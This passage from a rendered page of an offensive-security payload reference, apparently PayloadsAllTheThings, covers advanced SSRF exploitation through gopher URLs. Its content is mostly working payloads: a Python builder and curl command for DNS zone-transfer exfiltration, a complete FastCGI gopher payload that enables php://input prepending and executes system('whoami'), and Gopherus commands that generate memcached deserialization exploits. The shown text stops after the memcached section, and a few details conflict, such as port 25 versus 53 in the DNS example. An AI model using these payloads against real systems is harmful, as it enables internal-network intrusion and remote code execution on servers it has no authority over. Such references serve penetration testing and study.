

repository: pchabermann/PayloadsAllTheThings · page: Server Side Request Forgery/SSRF-Advanced-Exploitation/index.html · generator: mkdocs

# SSRF Advanced Exploitation

> Some services (e.g., Redis, Elasticsearch) allow unauthenticated data writes or command execution when accessed directly. An attacker could exploit SSRF to interact with these services, injecting malicious payloads like web shells or manipulating application state.

## Summary

* [DNS AXFR](#dns-axfr)
* [FastCGI](#fastcgi)
* [Memcached](#memcached)
* [MySQL](#memcached)
* [Redis](#redis)
* [SMTP](#smtp)
* [WSGI](#wsgi)
* [Zabbix](#zabbix)
* [References](#references)

## DNS AXFR

Query an internal DNS resolver to trigger a full zone transfer (**AXFR**) and exfiltrate a list of subdomains.

```py
from urllib.parse import quote
domain,tld = "example.lab".split('.')
dns_request =  b"\x01\x03\x03\x07"    # BITMAP
dns_request += b"\x00\x01"            # QCOUNT
dns_request += b"\x00\x00"            # ANCOUNT
dns_request += b"\x00\x00"            # NSCOUNT
dns_request += b"\x00\x00"            # ARCOUNT
dns_request += len(domain).to_bytes() # LEN DOMAIN
dns_request += domain.encode()        # DOMAIN
dns_request += len(tld).to_bytes()    # LEN TLD
dns_request += tld.encode()           # TLD
dns_request += b"\x00"                # DNAME EOF
dns_request += b"\x00\xFC"            # QTYPE AXFR (252)
dns_request += b"\x00\x01"            # QCLASS IN (1)
dns_request = len(dns_request).to_bytes(2, byteorder="big") + dns_request
print(f'gopher://127.0.0.1:25/_{quote(dns_request)}')
```

Example of payload for `example.lab`: `gopher://127.0.0.1:25/_%00%1D%01%03%03%07%00%01%00%00%00%00%00%00%07example%03lab%00%00%FC%00%01`

```ps1
curl -s -i -X POST -d 'url=gopher://127.0.0.1:53/_%2500%251d%25a9%25c1%2500%2520%2500%2501%2500%2500%2500%2500%2500%2500%2507%2565%2578%2561%256d%2570%256c%2565%2503%256c%2561%2562%2500%2500%25fc%2500%2501' http://localhost:5000/ssrf --output - | xxd
```

## FastCGI

Requires to know the full path of one PHP file on the server, by default the exploit is using `/usr/share/php/PEAR.php`.

```ps1
gopher://127.0.0.1:9000/_%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%01%04%04%00%0F%10SERVER_SOFTWAREgo%20/%20fcgiclient%20%0B%09REMOTE_ADDR127.0.0.1%0F%08SERVER_PROTOCOLHTTP/1.1%0E%02CONTENT_LENGTH58%0E%04REQUEST_METHODPOST%09KPHP_VALUEallow_url_include%20%3D%20On%0Adisable_functions%20%3D%20%0Aauto_prepend_file%20%3D%20php%3A//input%0F%17SCRIPT_FILENAME/usr/share/php/PEAR.php%0D%01DOCUMENT_ROOT/%00%00%00%00%01%04%00%01%00%00%00%00%01%05%00%01%00%3A%04%00%3C%3Fphp%20system%28%27whoami%27%29%3F%3E%00%00%00%00
```

## Memcached

Memcached communicates over port 11211 by default. While it is primarily used for storing serialized data to enhance application performance, vulnerabilities can arise during the deserialization of this data.

```ps1
python2.7 ./gopherus.py --exploit pymemcache
python2.7 ./gopherus.py --exploit rbmemcache
python2.7 ./gopherus.py --exploit phpmemcache
python2.7 ./gopherus.py --exploit dmpmemcache
```
